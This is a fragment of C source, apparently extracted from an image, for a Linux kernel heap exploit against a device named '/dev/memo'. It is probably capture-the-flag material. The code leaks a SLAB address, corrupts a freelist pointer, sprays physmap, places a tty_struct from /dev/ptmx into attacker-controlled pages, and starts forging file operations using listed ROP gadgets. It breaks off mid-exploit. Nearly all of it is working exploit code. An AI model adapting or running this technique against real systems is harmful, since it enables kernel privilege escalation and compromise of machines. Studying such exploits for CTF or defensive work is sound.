 ```c
unsigned long read64(unsigned long where) {
	unsigned long p1, p2;
	p1 = read32(where);
	p2 = read32(where + 4);
	return p1 | (p2 << 32);
}

int check_page(unsigned long addr) {

	unsigned long page[0x101];
	int i;

	for (i = 0; i < 0x101; i++) {
		page[i] = read64(addr + i*8);
	}
	for (i = 0; i < 0x100; i++) {
		if (((page[i] & 0xff) != 0x67) || (!(page[i] >> 63))) {
			return 0;
		}
	}

	return page[0x100] == 0;
}

int main(int argc, char **argv) {

	char trash[0x3FF];
	struct skewBuf buf;
	int i;

	assert(sizeof(buf) == 0x400);
	memset(trash, 0xcc, sizeof(trash));

	// open the device
	fd = Open("/dev/memo", O_RDWR);
	
	// leak a SLAB address
	Write(fd, trash, sizeof(trash));
	Read(fd, &buf, sizeof(buf));
	unsigned long heapAddr = buf.vec[0];
	LOG("Got a kernel heap leak: %p\n", (void *)heapAddr);

	// overwrite the fd of next chunk to a 'guess'ed physmap address
	lseek(fd, 0x3FF, SEEK_SET);
	buf.vec[0] = heapAddr & 0xffffffffff000000;
	LOG("tty_struct will be allocated at address: %p\n", (void *)buf.vec[0]);
	Write(fd, &buf, sizeof(buf));

	// physmap spray
	physmap_spray();

	// allocate a ptmx object, it will be allocated to userspace mmap pages
	int tty_fd = Open("/dev/ptmx", O_RDWR|O_NOCTTY);
	unsigned long*pg = page_hit();
	if (!pg) {
		puts("[-] failed to get a tty_struct allocated in one of our pages");
		exit(-1);
	}
	LOG("now page %p is synonymous with tty_struct of fd %d\n", pg, tty_fd);
	// create fake fops
	// 0xffffffff810a0333: mov dword ptr [rdx], esi; ret; 
	// 0xffffffff81051543: mov rax, qword ptr [rdx + 0x28]; ret; 
	unsigned long fops = pg[3];
```